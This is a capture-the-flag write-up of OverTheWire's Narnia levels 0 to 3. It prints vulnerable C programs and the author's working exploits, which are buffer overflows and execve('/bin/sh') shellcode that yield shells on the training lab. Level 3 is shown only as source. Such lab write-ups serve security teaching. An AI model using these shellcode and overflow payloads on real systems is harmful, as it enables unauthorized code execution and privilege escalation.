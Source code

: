 #Narnia
Narnia is a CTF hosted at overthewire.org/wargames/narnia.  My writeups for the levels will be posted here.
#Level0
Login to level 0 with `ssh narnia0@narnia.labs.overthewire.org` with password naria0.
The levels are all located in the /narnia directory once you are logged in, and the source code for each level is provided.
narnia0.c:
```
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```
Looking at the code we can see that if we overflow buf[20], it will overflow in to val. In order to get the shell, we need to make val contain 0xdeadbeef.
I first entered `perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0`.  This passed the comparison and allowed the system("/bin/sh") line to execute, but the shell was immediately closed because I didn't have any input to give it. 
Next, I modified my input to be `(perl -e 'print "A"x20 . "\xef\xbe\xad\xde"'; cat) | ./narnia0` which allowed me to keep the shell open (with the shell open as narnia1)
#Level1
```
#include <stdio.h>

int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){
                printf("Give me something to execute at the env-variable EGG\n");
                exit(1);
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG");
        ret();

        return 0;
}
```
So this code is going to get an environmental variable and then execute it.  Therefore, we want to put some executable code in to an evironmental variable called EGG.  I used the shellcode for execve("/bin/sh") I found at http://shell-storm.org/shellcode/files/shellcode-811.php and issued the command `export EGG=`perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" . "\xe3\x89\xc1\x89\xc2\xb0\x0b" ."\xcd\x80\x31\xc0\x40\xcd\x80"'``.  When I ran the program, I was given a shell as narnia2.
#Level2
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
                printf("Usage: %s argument\n", argv[0]);
			exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
}
```
In this level, the input that we pass the program is copied in to buf[128] using strcpy.  I played around with the inputs to the program and saw that when I sent it Ax139, the program executed with no problems, but when I sent it Ax140, it crashed with "Illegal instruction". 
I opened it up in GDB to get a better idea of what I needed to overflow it with:
```
Dump of assembler code for function main:
   0x0804845d <+0>:	push   ebp
   0x0804845e <+1>:	mov    ebp,esp
=> 0x08048460 <+3>:	and    esp,0xfffffff0
   0x08048463 <+6>:	sub    esp,0x90
   0x08048469 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804846d <+16>:	jne    0x8048490 <main+51>
   0x0804846f <+18>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048472 <+21>:	mov    eax,DWORD PTR [eax]
   0x08048474 <+23>:	mov    DWORD PTR [esp+0x4],eax
   0x08048478 <+27>:	mov    DWORD PTR [esp],0x8048560
   0x0804847f <+34>:	call   0x8048310 <printf@plt>
   0x08048484 <+39>:	mov    DWORD PTR [esp],0x1
   0x0804848b <+46>:	call   0x8048340 <exit@plt>
   0x08048490 <+51>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048493 <+54>:	add    eax,0x4
   0x08048496 <+57>:	mov    eax,DWORD PTR [eax]
   0x08048498 <+59>:	mov    DWORD PTR [esp+0x4],eax
   0x0804849c <+63>:	lea    eax,[esp+0x10]
   0x080484a0 <+67>:	mov    DWORD PTR [esp],eax
   0x080484a3 <+70>:	call   0x8048320 <strcpy@plt>
   0x080484a8 <+75>:	lea    eax,[esp+0x10]
   0x080484ac <+79>:	mov    DWORD PTR [esp+0x4],eax
   0x080484b0 <+83>:	mov    DWORD PTR [esp],0x8048574
   0x080484b7 <+90>:	call   0x8048310 <printf@plt>
   0x080484bc <+95>:	mov    eax,0x0
   0x080484c1 <+100>:	leave  
   0x080484c2 <+101>:	ret    
End of assembler dump.
(gdb) break *0x080484a3
```
I set a break point write before the call to strcpy() and ran the program with an input of 140 A's. (`r `perl -e 'print "A"x140'``)
The syntax for strcpy is strcpy(char *dest,char *src).  Since I broke at strcpy, I can print out the stack to see what those two arguments are:
```
(gdb) x/4wx $esp
0xffffd640:	0xffffd650	0xffffd8a4	0x00000000	0x00000000
```
The destination is at 0xffffd650 and the source is at 0xffffd8a4
Additionally, with `info frame` I see that eip is saved at 0xffffd6dc.  0xffffd6dc-0xffffd650=0x8c(140 decimal), which confirms why we saw the program crashing early.  We have a couple of options of how to exploit at this point, but I'll choose the simples and place my shellcode in buf[] and overwrite eip with the location of buf[] since my shellcode is only 28 bytes so I have plenty of space for it.
My shellcode will take 28 bytes, so will print my shellcode, then 140-28=112 A's and then my return address which is 0xffffd650.  Taking endianess in to account, the final exeuction is:
`./narnia2 `perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" . "\xe3\x89\xc1\x89\xc2\xb0\x0b" ."\xcd\x80\x31\xc0\x40\xcd\x80" . "A"x112 . "\x50\xd6\xff\xff"'``
When I execute this I'm granted a shell as narnia3 
#Level3
```
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);

        exit(1);
}
```

